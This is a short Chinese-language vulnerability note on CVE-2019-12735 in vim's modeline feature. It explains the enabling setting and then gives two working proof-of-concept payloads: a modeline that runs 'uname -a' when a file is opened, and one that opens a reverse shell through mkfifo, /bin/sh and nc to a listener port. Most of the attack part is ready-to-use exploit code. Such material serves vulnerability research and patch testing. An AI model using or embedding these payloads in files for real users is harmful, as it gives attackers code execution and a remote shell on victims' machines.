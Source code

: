 ```yaml
---
title: （CVE-2019-12735）vim modeline
id: zhfly3492
---
```


# （CVE-2019-12735）vim modeline

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当vim打开一个包含了vim modeline注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。 开启：

```
vim ~/.vimrc
//文件内容为
set modeline 
```

```
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](../img/dc8dad288e07d3184d089aadf2f403ae.png)

反弹shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](../img/73bd333857e534c951328903856de2e5.png)